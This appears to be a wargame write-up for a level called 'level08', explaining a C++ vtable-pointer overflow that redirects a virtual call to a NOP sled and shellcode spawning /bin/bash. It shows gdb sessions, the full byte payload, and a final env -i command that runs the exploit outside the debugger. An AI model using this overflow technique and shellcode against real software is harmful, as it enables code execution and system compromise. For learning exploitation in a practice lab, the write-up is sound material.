 # level8 yo


## Writeup

#### Memory layout
```
x											   y
[VPTR][ANNOTATION                ...][NUMBER] [VPTR][ANNOTATION                ...][NUMBER] 
   \______[fun1, fun2... ]
   			 VTABLE
```
We neec to overflow anotation so VPTR points to a VTABLE we constructed.
This vtable should contain the address of our shellcode instead of the operator+ overloaded function.
So when return six + five; get executed, our fake vtable will execute the shellcode.

1. We overflow annotation 'till we get a segfault
2. We put some `\xef\be\xad\xde` at the beginning of our buffer
3. We make our 4 bytes pointer point to the beginning of buffer after finding the address in the stack
4. We get an error telling us code at `0xdeadbeef` can't be executed. We replace `0xdeadbeef` with the address of our nop sled just after `0xdeadbeef`

Voilà!


```
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level08 $(python -c 'print "\x5c\xff\x48\xff" + "\xff\xbf\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A" * 57 + "BBBB" + "CCC" + "\x44\xff\xff\xbf"')

Breakpoint 1, 0x08048720 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x2f000000 in ?? ()
<f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A" * 57 + "BBBB" + "CCC" + "\x58\xff\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level08 $(python -c 'print "\x5c\x5c\xff\xff" + "\xbf\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A" * 57 + "BBBB" + "CCC" + "\x58\xff\xff\xbf"')

Breakpoint 1, 0x08048720 in main ()
(gdb) c
Continuing.
process 21316 is executing new program: /bin/bash
```


## Resources

[Smashing C++ VPTRs](http://phrack.org/issues/56/8.html)
[How to print Vtables](https://stackoverflow.com/questions/6191678/print-c-vtables-using-gdb)

The shellcode would work in gdb but not on the real program. The solution is to disable env variables LINES and COLUMNS added by gdb and use env -i to have the same memory context :

```
$ env -i PWD="/levels" SHELL="/bin/bash" SHLVL=0 gdb /levels/level08
...
(gdb) unset env LINES
(gdb) unset env COLUMNS
...
(gdb) quit 
...
$ env -i PWD="/levels" SHELL="/bin/bash" SHLVL=0 /levels/level08 $(python -c 'print "\x5c\x5c\xff\xff" + "\xbf\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A" * 57 + "BBBB" + "CCC" + "\x58\xff\xff\xbf"')
```